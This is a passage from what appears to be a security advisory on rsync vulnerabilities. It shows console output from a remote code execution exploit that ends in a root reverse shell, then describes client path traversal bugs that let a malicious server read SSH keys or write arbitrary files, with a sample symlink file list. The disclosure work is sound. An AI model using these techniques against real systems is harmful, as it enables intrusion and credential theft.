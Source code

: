 The result is Remote-Code-Execution:

</PRE>
```console
$./exploit rsync://example.com:873/files
[*] Connected to example.com:873 on module files
[*] Received file list
[*] Downloaded target file 'foo': index 1, size 1417 (73a2bc1480ce5898)
[*] Starting leak...
[+] Leaked .text pointer 0x5572190ca847
[*] base: 0x557219088000
[*] shell_exec: 0x5572190b2a50
[*] ctx_evp: 0x557219114a28
[*] Spraying heap...
[*] Setting up reverse shell listener...
[*] Listening on port 1337
[*] Sending payload...
[+] Received connection! Dropping into shell
# id
uid=0(root) gid=0(root) groups=0(root)
```
<PRE>

-- 2.6.0 - Exploitation of Path Traversal Vulnerabilities

In the following sections, we will discuss multiple path traversal issues
in the Rsync client. They allow a malicious or compromised server to read
and write arbitrary files on clients' filesystems that connect to the
server. The malicious server could attempt to read secrets from disk, like
private SSH keys. Additionally, they could overwrite files such as .bashrc
or write an SSH key on the client.

These vulnerabilities could be exploited by a trusted server that has been
compromised, for example through the Remote-Code-Execution exploit we
described earlier.

-- 2.6.1 - Arbitrary File Write

When the syncing of symbolic links is enabled, either through the -l or 
-a (--archive) flags, a malicious server can make the client write
arbitrary files outside of the destination directory.

A malicious server may send the client a file list such as:

    symlink ->/arbitrary/directory
    symlink/poc.txt

Symbolic links, by default, can be absolute or contain character sequences
such as ../../.

The client validates the file list and when it sees the symlink/poc.txt
entry, it will look for a directory called symlink, otherwise it will
error out. If the server sends a symlink as a directory and a symbolic
link, it will only keep the directory entry. Therefore, the attack
requires some additional details to work.
